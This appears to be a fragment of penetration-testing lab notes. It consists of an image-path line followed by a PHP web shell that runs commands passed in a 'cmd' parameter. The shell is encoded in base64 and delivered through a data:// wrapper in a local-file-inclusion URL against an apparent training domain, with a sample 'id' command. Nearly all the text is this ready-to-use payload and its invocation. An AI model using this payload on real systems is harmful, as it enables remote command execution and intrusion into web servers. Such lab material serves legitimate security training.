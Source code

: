 echo '<?php system($_GET['cmd']); ?>' | base64  => PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=
usage: http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
